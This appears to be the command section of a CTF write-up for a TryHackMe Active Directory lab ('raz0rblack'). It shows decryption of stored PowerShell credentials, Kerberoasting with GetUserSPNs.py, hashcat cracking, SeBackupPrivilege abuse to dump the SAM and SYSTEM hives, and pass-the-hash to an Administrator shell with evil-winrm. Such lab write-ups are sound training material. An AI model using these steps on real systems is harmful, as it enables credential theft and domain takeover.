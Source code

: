 ```shell
#use XML serialization

$credential = Import-CliXml -Path 'C:\Users\lvetrova\lvetrova.xml'

echo $credential
#shows flag as System.Security.SecureString

$credential.GetNetworkCredential().Password
#this gives us the flag

#in attacker machine
#we can use lvetrova hash to request ticket
GetUserSPNs.py raz0rblack.thm/lvetrova -dc-ip 10.10.81.61 -hashes f220d3988deb3f516c73f40ee16c431d:f220d3988deb3f516c73f40ee16c431d -request
#this gives us hash

hashcat -a 0 -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt
#gives password for xyan1d3

evil-winrm -u xyan1d3 -p cyanide9amine5628 -i raz0rblack.thm
#get another shell

cd ..

dir
#another .xml file

Import-CliXml -Path 'C:\Users\xyan1d3\xyan1d3.xml'

$credential.GetNetworkCredential().Password
#gives us another flag

whoami /priv
#SeBackupPrivilege enabled

#SeBackup privilege abuse

reg save hklm\sam C:\Users\xyan1d3\sam

reg save hklm\system C:\Users\xyan1d3\system
#we can now download both these dumps to our local machine

download C:\Users\xyan1d3\sam /home/sv/THM/razorblack/sam

download C:\Users\xyan1d3\system /home/sv/THM/razorblack/system

#in attacker machine
secretsdump.py -sam sam -system system LOCAL
#this gives us the Administrator hash

evil-winrm -u Administrator -H 9689931bed40ca5a2ce1218210177f0c -i raz0rblack.thm
#get shell as Administrator

cd ..

dir
#we have cookie.json and root.xml

type root.xml
#this shows a different type of data
#CyberChef shows it is hex data
#decoding from hex gives us flag

```
